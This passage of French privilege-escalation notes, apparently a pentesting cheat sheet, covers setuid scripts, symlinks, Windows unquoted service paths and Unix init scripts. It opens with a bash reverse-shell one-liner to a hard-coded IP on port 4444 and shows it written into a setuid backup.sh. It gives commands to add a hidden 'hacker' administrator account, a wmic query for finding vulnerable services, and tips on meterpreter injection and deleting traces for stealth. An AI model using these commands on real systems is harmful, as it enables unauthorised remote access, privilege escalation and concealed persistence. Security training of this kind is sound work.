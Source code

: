     0<&143-;exec 143<>/dev/tcp/193.250.161.80/4444;sh <&143 >&143 2>&143
on va recopier ce script dans backup.sh (script setuid) 

    echo ""0<&143-;exec 143<>/dev/tcp/193.250.161.80/4444;sh <&143 >&143 2>&143"" > ./backup.sh" 
   
## Exploiter les fichiers de mots de pass (SAM, /etc/passwd, /etc/shadow)

## Manipulation de fichiers (chown, chmod 777...)
ln -s vers un fichier sensible sur un fichier qui va changer de user (root vers user)

## Exploiter les scripts de démarrage des services
### Les services Windows
Une faille assez simple mais peu discrète est d'exploiter les scripts de démarrages des services vulnérables. Le problème réside dans l'absence des `"` pour délimiter le chemin. En effet en leur absence, Windows splitte la chaîne par les espaces et rajoute `.exe` au bout de la chaîne s'il est absent et essaye de lancer. Si ça ne fonctionne pas il passe à la chaîne suivante. Ainsi pour le binaire:

    C:\Program Files\folder\my program.exe
Windows essayera de lancer:

    C:\Program Files\folder\my.exe
Avant

    C:\Program Files\folder\my program.exe
Il suffit donc de créer notre binaire `my.exe` et dans le mettre dans folder pour installer de la persistance. Mais ce n'est pas très discret. Il serait plus discret de créer un meterpreter qui va injecter un processus dans une DLL d'internet explorer et qui se supprime et on est invisible.
Il faut ensuite que notre exe prennent en paramètre:

    net user hacker password123 /add
    net localgroup "Administrators" hacker /add
Ainsi on a ajouté un utilisateur dans le groupe administrateur, il n'y a plus qu'à se connecter avec. Pour pas laisser de traces on ajoute un `del my.exe` mais on perd la persistence.

Pour se faire il faut tout de même déja avoir accès à Windows.

Pour trouver les chemins de services vulnérables:

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto"|findstr /i /v "C:\\Windows\\" |findstr /i /v """
Et rechercher `BINARY_PATH_NAME`

La console de service est accessible en via win+r et `services.msc`. La plupart des services sont démarrés en tant que SYSTEM.

### Les démons Unix
Les démon Unix étaient démarrés par `init.d`. `systemd` a pris le relais de `init.d` qui vieillit mais on retrouve toujours derrière son principe avec des scripts dans son répertoire qui en général se contente de lancer les binaires.

Prenons par exmple la vulnérabilité [CVE-2016-8641](https://www.exploit-db.com/exploits/40774) concernant le script de démarrage Nagios et qui permet une élévation de privilèges.
